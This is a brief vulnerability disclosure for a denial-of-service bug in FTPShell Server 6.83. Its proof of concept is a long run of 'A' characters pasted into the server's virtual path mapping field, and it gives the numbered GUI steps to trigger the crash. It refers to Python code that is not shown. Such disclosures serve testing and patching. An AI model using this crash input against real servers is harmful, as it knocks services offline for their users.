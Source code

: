 # FTPShell Server 6.83  -- Denial of Service

>Discoverer: leiothrix
>Discovery time: 2019/4/27
>Tested Version: 6.83
>Software Link: http://www.ftpshell.com/downloadserver.htm

Steps to exploit:
1.Run Python Code
2.Open the txt file and copy content to clipboard
1.Open FTPShell Server
2.Select "Manage FTP Accounts"
3.Select "Configure accounts..."
4.Select "Add path" and in "Virtual Path Mapping" Paste Clipboard
5.Click on "OK"

POC:
>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Result map:
![图片](https://upload-images.jianshu.io/upload_images/703764-605e3cc2ecb664f6.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![图片](https://upload-images.jianshu.io/upload_images/703764-605e3cc2ecb664f6.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
